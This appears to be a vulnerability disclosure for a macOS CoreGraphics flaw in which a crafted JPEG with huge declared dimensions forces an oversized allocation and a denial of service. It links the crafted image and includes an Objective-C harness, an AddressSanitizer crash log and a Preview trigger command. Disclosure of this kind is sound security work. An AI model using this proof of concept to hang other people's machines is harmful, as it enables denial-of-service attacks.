

## Incorrect memory allocation in CGSImageDataHandleCreate (CoreGraphics)

### Impact

Crafted image can lead to incorrect memort allocation and memory leak, causing CPU 100% and leading to DoS attack. While testing in my pd vm, it hungs my vm and cannot do anything but restart it, which is a typical DoS attack.

### PoC

mem_leak_poc.jpg: https://drive.google.com/file/d/1qmYQacoutMW979h_bHTk04cLgR2x-9qh/view?usp=drive_link

tester.m: 

```objective-c
// Compile with clang -o tester tester.m -fsanitize=undefined -framework Foundation -framework CoreGraphics -framework AppKit
#include <Foundation/Foundation.h>
#include <Foundation/NSURL.h>
#include <dlfcn.h>
#include <stdint.h>
#include <sys/shm.h>
#include <dirent.h>

#import <Cocoa/Cocoa.h>
#import <ImageIO/ImageIO.h>

int main(int argc, const char * argv[]) {
    if (argc < 2) {
        printf("Usage: %s path/to/image\n", argv[0]);
        return 0;
    }

    NSString* path = [NSString stringWithUTF8String:argv[1]];
    NSData* content = [NSData dataWithContentsOfFile:path];
    NSImage* img = [[NSImage alloc] initWithData:content];
    NSLog(@"Image @ %p: %@\n", img, img);

    CGImageRef cgImg = [img CGImageForProposedRect:nil context:nil hints:nil];
    if (cgImg) {
        size_t width = CGImageGetWidth(cgImg);
        size_t height = CGImageGetHeight(cgImg);
        CGColorSpaceRef colorspace = CGColorSpaceCreateDeviceRGB();
        CGContextRef ctx = CGBitmapContextCreate(0, width, height, 8, 0, colorspace, 1);
        CGRect rect = CGRectMake(0, 0, width, height);
        CGContextDrawImage(ctx, rect, cgImg);

        CGColorSpaceRelease(colorspace);
        CGContextRelease(ctx);
        CGImageRelease(cgImg);
    }


    [img release];
    [content release];
    [path release];

    return 0;
}
```

### Log

```
➜  build ./tester ~/mem_leak_poc.jpg 
2024-01-18 16:41:45.683 tester[1275:15455] Image @ 0x1037020a0: <NSImage 0x1037020a0 Size={874684, 492010} RepProvider=<NSImageArrayRepProvider: 0x102d03830, reps:(
    "NSBitmapImageRep 0x103107100 Size={874684, 492010} ColorSpace=(not yet loaded) BPS=8 BPP=(not yet loaded) Pixels=874684x492010 Alpha=NO Planar=NO Format=(not yet loaded) CurrentBacking=nil (faulting) CGImageSource=0x102c08920"
)>>
=================================================================
==1275==ERROR: AddressSanitizer: requested allocation size 0x190cca22578 (0x190cca23578 after adjustments for alignment, red zones etc.) exceeds maximum supported size of 0x10000000000 (thread T0)
    #0 0x100917c9c in __sanitizer_mz_calloc+0xe4 (libclang_rt.asan_osx_dynamic.dylib:arm64e+0x53c9c)
    #1 0x1820dfb74 in _malloc_zone_calloc_instrumented_or_legacy+0x60 (libsystem_malloc.dylib:arm64e+0x29b74)
    #2 0x187e7bf7c in CGSImageDataHandleCreate+0x7c (CoreGraphics:arm64e+0x3af7c)
    #3 0x187e7ab40 in img_data_lock+0x10fc (CoreGraphics:arm64e+0x39b40)
    #4 0x187e76474 in CGSImageDataLock+0x45c (CoreGraphics:arm64e+0x35474)
    #5 0x187e75fd0 in RIPImageDataInitializeShared+0xb4 (CoreGraphics:arm64e+0x34fd0)
    #6 0x187e75c38 in RIPImageCacheGetRetained+0x210 (CoreGraphics:arm64e+0x34c38)
    #7 0x187e75914 in ripc_AcquireRIPImageData+0x2d4 (CoreGraphics:arm64e+0x34914)
    #8 0x187e748fc in ripc_DrawImage+0x2c4 (CoreGraphics:arm64e+0x338fc)
    #9 0x187e73e9c in CGContextDrawImageWithOptions+0x2c8 (CoreGraphics:arm64e+0x32e9c)
    #10 0x100067670 in main+0x47c (tester:arm64+0x100003670)
    #11 0x181f210dc  (<unknown module>)

==1275==HINT: if you don't care about these errors you may set allocator_may_return_null=1
SUMMARY: AddressSanitizer: allocation-size-too-big (libclang_rt.asan_osx_dynamic.dylib:arm64e+0x53c9c) in __sanitizer_mz_calloc+0xe4
==1275==ABORTING
[1]    1275 abort      ./tester ~/mem_leak_poc.jpg
```

### Capture

```
open -a preview mem_leak_poc.jpg 
```

